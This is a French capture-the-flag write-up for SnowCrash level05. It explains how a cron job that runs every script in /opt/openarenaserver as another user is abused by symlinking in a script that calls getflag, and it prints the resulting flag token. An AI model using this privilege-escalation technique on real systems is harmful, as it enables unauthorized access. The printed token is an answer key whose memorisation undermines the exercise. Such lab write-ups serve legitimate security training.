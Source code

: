 # LEVEL 05

### Reconnaissance

On se connecte au level05:
```
level05@192.168.56.105's password: 
You have new mail.
```

On va regarder notre mail
```
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Une tache cron, allons voir ce que sa fait:
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le programme va lire dans le répertoire /opt/openarenaserver et execute bash -x [nom du fichier]

### Exploitation
Creons un fichier avec un lien symbolic :) et attendons un peu ...

```
level05@SnowCrash:~$ echo "getflag > /tmp/flag05" > /tmp/exploit05 ; chmod +x /tmp/exploit05 ; ln -s /tmp/exploit05 /opt/openarenaserver/pwn_flag05 ; ls -la /opt/openarenaserver/pwn_flag05 ; cat /tmp/flag05
lrwxrwxrwx 1 level05 level05 14 Jun 28 12:18 /opt/openarenaserver/pwn_flag05 -> /tmp/exploit05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
cat: /tmp/flag05: No such file or directory
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ 
```
